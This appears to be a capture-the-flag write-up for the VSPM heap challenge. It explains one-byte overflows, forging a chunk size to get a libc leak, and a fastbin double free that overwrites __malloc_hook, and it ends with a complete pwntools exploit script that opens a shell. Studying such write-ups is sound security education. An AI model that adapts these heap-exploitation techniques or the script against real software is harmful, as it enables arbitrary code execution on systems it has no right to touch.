








VSPM uses GLIBC 2.30 however it uses a libc that has tcache disabled. The binary also has all mitigations enabled:


It is a generic heap challenge with 3 useful functions


We'll begin with the functions at the end. If we decide to delete a password:


At first glance, the function seems safe. It initially verifies that the pointer we're trying to free is not null. Then, after freeing the memory, it sets the pointer to null. The only missing check is an index validation to ensure that we don't access an index beyond the size of the global array holding these values. However, this won't be relevant for the intended method of exploitation.

Next, the print function:


It appears that this prints a string saved next to the pointer of the heap chunk, which represents the "Name" of the stored password. Then, it prints the contents of the heap chunk itself. All of this occurs if the pointer at the chosen index is not null.

Last but not least, the save password function:


The function searches for the first available spot in the global array where the pointer is null and allocates a new chunk there. It then verifies that the size of the chunk does not exceed 0x78. We can notice two one-byte overflows occurring: one in the "name" array located next to the chunk pointer, and the other in the heap.

The first step is to get a libc leak and to get one we would need to free an unsorted bin. The unsorted bin is a circular doubly-linked list, and chunks are placed into it when they are freed, provided they are larger than the fastbin maximum size (typically more than 0x80 bytes). Chunks in the unsorted bin are linked together using forward (fd) and backward (bk) pointers. The first chunk in the unsorted bin has its fd and bk pointers pointing to the main arena's bin headers, effectively linking the unsorted bin into the main arena's data structure.

I noted that we cannot allocate a chunk with a size large enough to be placed in the unsorted bin directly. Instead, we can exploit a one-byte overflow to overwrite the size field of the next chunk in the heap, making it eligible to be placed in the unsorted bin.
```python
malloc(0x30-8, b'A'*8, b'B'*8)
malloc(0x50-8, b'C'*8, b'D'*8)
malloc(0x50-8, b'E'*8, b'F'*8)
malloc(0x20-8, b'G'*8, b'H'*8)

free(0)
malloc(0x30-8, b'A'*40+p8(0xa1), b'X'*8)
free(1)
```
I initially allocated a chunk, which I would later free, to make it possible to reallocate it and overwrite the size of the following chunk. Next, I allocated two chunks of size 0x50 each, along with another chunk of size 0x20. The 0x20-sized chunk was included because, due to the implementation of the unsorted bin, if the unsorted bin is adjacent to the top chunk, malloc will automatically merge it with the top chunk’s size, preventing us getting a libc leak. Afterward, I freed the initial chunk and used it to overwrite the size of the second chunk with 0xa1 (which is 0x50 + 0x50 + 1, ensuring that the prev_inuse flag is set, which is a bit that indicates whether the previous chunk is allocated or not).

Since everything is properly aligned, malloc will recognize the second chunk as a valid unsorted bin. When we free it, we'll be able to retrieve the libc pointers.


Now, lets print all the passwords and get our libc leak!


However, we encounter an issue: the print function's check prevents it from displaying pointers that have already been freed. This is where the second one-byte overflow becomes useful. Before listing the passwords, we can overwrite the last byte of a pointer from a valid chunk with a pointer to a chunk that we plan to free. This effectively creates two pointers pointing to the same chunk. As a result, we can free the chunk and then print it, despite it having been freed.
```python
malloc(0x30-8, b'A'*8, b'B'*8)
malloc(0x50-8, b'C'*8, b'D'*8)
malloc(0x50-8, b'E'*8, b'F'*8)
malloc(0x20-8, b'G'*8, b'H'*8)

free(2)
malloc(0x50-8, b'E'*8, b'F'*32+p8(0x40))

free(0)
malloc(0x30-8, b'A'*40+p8(0xa1), b'X'*8)
free(1)

list()
```
With this, we'll finally be able to get our leak.

To get our shell, we'll use the same technique from earlier to create two pointers on the same chunk and create a double free attack. A double free occurs when the free() function is called more than once for the same memory address without allocating it again in between. Now, when you request a new chunk of that size using malloc, the allocator will allocate a block that has been freed twice. This can result in two different pointers referencing the same memory location. If an attacker controls one of these pointers, they can alter the contents of the memory, potentially enabling them to execute arbitrary code.

Before the ```&__malloc_hook``` address in memory, there are other libc addresses. To exploit this, we can deceive malloc by using the first byte of one of these addresses (which will be 0x7f) to create a valid-sized chunk. This approach allows us to overwrite the malloc_hook.

The final exploit:
```python
#!/usr/bin/env python3

from pwn import *
elf = ELF("./chall")
libc = ELF("./libc-2.30.so")
p = elf.process()
#p = remote('challs.tfcctf.com',31809)

def malloc(size, chunk, name):
	p.readuntil(b'Input: ')
	p.sendline(b'1')
	p.readuntil(b'length: ')
	p.sendline(str(size).encode())
	p.readuntil(b'credentials: ')
	p.send(chunk)
	p.readuntil(b'credentials: ')
	p.send(name)

def free(index):
	p.readuntil(b'Input: ')
	p.sendline(b'3')
	p.readuntil(b'index: ')
	p.sendline(str(index).encode())

def list():
	p.readuntil(b'Input: ')
	p.sendline(b'2')


malloc(0x30-8, b'A'*8, b'B'*8)
malloc(0x50-8, b'C'*8, b'D'*8)
malloc(0x50-8, b'E'*8, b'F'*8)
malloc(0x20-8, b'G'*8, b'H'*8)

free(2)
malloc(0x50-8, b'E'*8, b'F'*32+p8(0x40))

free(0)
malloc(0x30-8, b'A'*40+p8(0xa1), b'X'*8)
free(1)

list()
p.readuntil(b'HHHHHHHH --> ')
leak = u64(p.read(6).ljust(8, b'\x00'))
libc.address = leak - 3886016
print("Libc base at {}".format(hex(libc.address)))

malloc(0x50-8, b'A'*8, b'B'*8)
malloc(0x50-8, b'C'*8, b'D'*8)

malloc(0x70-8, b'A'*24, b'B'*8)
malloc(0x70-8, b'C'*24, b'D'*8)
malloc(0x70-8, b'E'*24, b'F'*8)
free(6)
malloc(0x70-8, b'C'*24, b'D'*32+p8(0x00))

free(5)
free(6)
free(7)

malloc(0x70-8, p64(libc.sym.__malloc_hook - 35), b'C'*8)
malloc(0x70-8, b'D'*8, b'E'*8)
malloc(0x70-8, b'F'*8, b'G'*8)
malloc(0x70-8, b'X'*19 + p64(libc.address + 0xe1fa1), b'Z'*8)

p.sendline(b'1')
p.sendline(b'0')


p.interactive()
```

And we get a shell!


Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the Dockerfile, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/vspm.zip)